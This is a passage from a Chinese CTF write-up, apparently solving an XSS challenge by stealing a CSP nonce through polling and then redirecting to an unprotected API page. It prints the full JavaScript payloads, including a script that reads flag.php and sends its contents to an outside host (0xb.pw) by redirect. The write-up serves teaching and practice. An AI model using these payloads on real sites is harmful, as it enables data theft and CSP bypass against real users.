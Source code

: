 2、我们需要不断请求nonce.php，并点击提交按钮，当返回有内容的时候，开启新的iframe标签，插入script标签，读取flag.php，以跳转的方式传出。

```
<scriscriptpt>
  functioonn getNoonnce() { 
    var xhr = new XMLHttpRequest();
    xhr.open("GET", "http://115.28.78.16/noonnce.php", false);
    xhr.send();
    return xhr.respoonnseText;
  }
 
  setTimeout(pollNoonnce, 1000);
  functioonn pollNoonnce() {
    var noonnce = getNoonnce();

    if (noonnce == "") {
      setTimeout(pollNoonnce, 1000);
    } else {
      attack(noonnce);
    }
  }

  functioonn attack(noonnce) {
    var iframe = document.createElement("iframe");
    var url = "http://127.0.0.1/xsstest_new/admin/#"
    var payload = "<scriscriptpt noonnce='" + noonnce + "'>var xmlhttp = new XMLHttpRequest(); xmlhttp.open(\"GET\", \"flag.php\", false); xmlhttp.send(); var mess = xmlhttp.respoonnse; var xhr = new XMLHttpRequest(); locatioonn.href=\"http://0xb.pw?\"+mess;</scr" + "ipt>";
    var validPayload = "<scrscriptipt>alert('If you see this alert, CSP is not active')</scr" + "ipt>"
    iframe.src = url + payload + validPayload;
    document.body.appendChild(iframe);
  }

  setTimeout("document.getElementById('frame').coonntentWindow.document.forms[0].submit();", 3000);

</sscriptcript>
```

由于xhr需要跨域请求nonce.php，而前台的站中含有csp，这是一个预设的坑，细心的人不难发现，用户的信息是通过请求api/getmessage.php获取的

![image_1be4dlo64vi3vtl1ee8hu31g8gm.png-56.5kB][5]

我们可以注意这个页面并没有csp，所以构造跳转到getmessage.php，然后服务端设置`header("Access-Control-Allow-Origin:*");`，成功绕过


全部payload如下

```
<iframe id="frame" src="http://127.0.0.1/xsstest_new/adminshigesha233e3333/#<form method='post' actioonn='http://115.28.78.16/noonnce.php'><input type='submit' value='test!'><textarea name='noonnce'>"></iframe>

<scriscriptpt>
  if(locatioonn.pathname != "/api/getmessage.php"){
    window.locatioonn.href = "http://" + document.domain + "/api/getmessage.php"
  }


  functioonn getNoonnce() { 
    var xhr = new XMLHttpRequest();
    xhr.open("GET", "http://115.28.78.16/noonnce.php", false);
    xhr.send();
    return xhr.respoonnseText;
  }
 
  setTimeout(pollNoonnce, 1000);
```

  [1]: http://static.zybuluo.com/LoRexxar/x456wiqarhtd85ufb6r67ulz/image_1be4da9901l902161muj1khor429.png
  [2]: http://static.zybuluo.com/LoRexxar/wffm5weehycndc8b9k2x0972/image_1bd65493j1oof1doj1ok152diqkm.png
  [3]: http://static.zybuluo.com/LoRexxar/0ta8ypvabn74fhcalpxb6gvt/image_1bd6582u5641h5c1g006k6r2f13.png
  [4]: http://static.zybuluo.com/LoRexxar/qvp6z81nzd85lx1l29kscv9p/image_1bd6e1i5k1m6a1dpf1bi0g5j186a9.png
  [5]: http://static.zybuluo.com/LoRexxar/zcafmqme8aujaxnmti8jsp4j/image_1be4dlo64vi3vtl1ee8hu31g8gm.png
  [6]: http://static.zybuluo.com/LoRexxar/80aqq62w7f7a2i21vqely76s/image_1be4e5g8q1pjk12714191vtp18ta13.png
  [7]: http://static.zybuluo.com/LoRexxar/xfrth6zizzzkdywwp25nm1kk/image_1bednb31n145c1shfa8cj41p7p9.png
  [8]: http://static.zybuluo.com/LoRexxar/6xp2ciyd1oavbswajjusl31z/image_1bednf0jr1t3oh4f1pqoqmm5cnm.png